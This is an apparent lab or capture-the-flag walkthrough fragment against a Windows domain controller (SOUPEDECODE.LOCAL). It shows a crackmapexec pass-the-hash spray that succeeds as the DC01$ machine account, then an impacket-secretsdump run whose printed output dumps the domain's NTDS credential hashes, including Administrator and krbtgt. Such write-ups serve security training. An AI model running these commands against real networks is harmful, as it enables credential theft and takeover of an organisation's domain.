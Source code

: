 `crackmapexec smb 192.168.56.103 -u ./domain_users.txt -H 0daed4f186dca68d441b1b5415c674b4`:
```
SMB         192.168.56.103  445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False)
SMB         192.168.56.103  445    DC01             [-] SOUPEDECODE.LOCAL\Domain Users:0daed4f186dca68d441b1b5415c674b4 STATUS_LOGON_FAILURE 
SMB         192.168.56.103  445    DC01             [-] SOUPEDECODE.LOCAL\Administrator:0daed4f186dca68d441b1b5415c674b4 STATUS_LOGON_FAILURE 
SMB         192.168.56.103  445    DC01             [-] SOUPEDECODE.LOCAL\krbtgt:0daed4f186dca68d441b1b5415c674b4 STATUS_LOGON_FAILURE 

[...]

86dca68d441b1b5415c674b4 STATUS_LOGON_FAILURE 
SMB         192.168.56.103  445    DC01             [-] SOUPEDECODE.LOCAL\fjudy998:0daed4f186dca68d441b1b5415c674b4 STATUS_LOGON_FAILURE 
SMB         192.168.56.103  445    DC01             [-] SOUPEDECODE.LOCAL\admin:0daed4f186dca68d441b1b5415c674b4 STATUS_LOGON_FAILURE
SMB         192.168.56.103  445    DC01             [+] SOUPEDECODE.LOCAL\DC01$:0daed4f186dca68d441b1b5415c674b4 ←
```

`impacket-secretsdump 'SOUPEDECODE.LOCAL/DC01$@192.168.56.103' -hashes 'aad3b435b51404eeaad3b435b51404ee:0daed4f186dca68d441b1b5415c674b4'`:
```
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8982babd4da89d33210779a6c5b078bd::: ←
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:fb9d84e61e78c26063aced3bf9398ef0:::
soupedecode.local\bmark0:1103:aad3b435b51404eeaad3b435b51404ee:d72c66e955a6dc0fe5e76d205a630b15:::
soupedecode.local\otara1:1104:aad3b435b51404eeaad3b435b51404ee:ee98f16e3d56881411fbd2a67a5494c6:::
soupedecode.local\kleo2:1105:aad3b435b51404eeaad3b435b51404ee:bda63615bc51724865a0cd0b4fd9ec14:::
soupedecode.local\eyara3:1106:aad3b435b51404eeaad3b435b51404ee:68e34c259878fd6a31c85cbea32ac671:::
soupedecode.local\pquinn4:1107:aad3b435b51404eeaad3b435b51404ee:92cdedd79a2fe7cbc8c55826b0ff2d54:::
soupedecode.local\jharper5:1108:aad3b435b51404eeaad3b435b51404ee:800f9c9d3e4654d9bd590fc4296adf01:::
soupedecode.local\bxenia6:1109:aad3b435b51404eeaad3b435b51404ee:d997d3309bc876f12cbbe932d82b18a3:::
soupedecode.local\gmona7:1110:aad3b435b51404eeaad3b435b51404ee:c2506dfa7572da51f9f25b603da874d4:::
soupedecode.local\oaaron8:1111:aad3b435b51404eeaad3b435b51404ee:869e9033466cb9f7f8d0ce5a5c3305c6:::
soupedecode.local\pleo9:1112:aad3b435b51404eeaad3b435b51404ee:54a3a0c87893e1051e6f7b629ca144ef:::
soupedecode.local\evictor10:1113:aad3b435b51404eeaad3b435b51404ee:c918a6413865d3701a40071365fa1c3e:::
soupedecode.local\wreed11:1114:aad3b435b51404eeaad3b435b51404ee:a581adbf0e50ba5e4b4c4d95ca190471:::
soupedecode.local\bgavin12:1115:aad3b435b51404eeaad3b435b51404ee:ba78418ef53add0841b76f103e487bf5:::

[...]
```
